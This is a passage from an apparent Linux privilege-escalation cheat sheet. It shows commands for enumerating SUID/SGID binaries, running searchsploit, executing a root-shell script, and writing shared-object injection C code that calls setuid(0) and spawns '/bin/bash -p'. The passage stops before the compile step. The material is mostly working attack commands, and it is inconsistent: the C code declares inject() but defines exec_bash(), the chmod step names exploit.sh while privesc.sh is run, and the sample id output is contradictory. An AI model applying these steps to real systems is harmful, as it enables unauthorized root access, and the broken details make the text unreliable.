     ```
    program -v
    program --version
    ```
3.  Using searchsploit on our localhost, we can try to find local privilege escalation for the program:

    ```
    searchsploit <program>
    ```
4.  Make sure the script is executable:

    ```
    chmod +x exploit.sh
    ```
5.  Execute the script to gain a root shell:

    ```
    $ ./privesc.sh
    # id
    uid=0(root) gid=1000(user) groups=0(root)
    ```

### Shared Object Injection

When a program is run, it tries to load the shared objects it needs. We may use strace to monitor these system calls and see if any shared objects are missing. We can build a shared object and start a root shell when the program is loaded if we can write to the location the program wants to open.

#### Shared Object Injection Privilege Escalation

1.  Enumerate SUID/SGID files on the target:

    ```
    $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    ```
2.  Run strace on the SUID file:

    ```
    $ strace /usr/local/bin/binary_name 2>&1 | grep -iE "open|access|no such file"
    ```
3.  Create the necessary file `<required_name.c>` with the following code:

    ```
    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void exec_bash() {
    	setuid(0);
    	system("/bin/bash -p");
    }
    ```
4.  Compile the `.so` file:
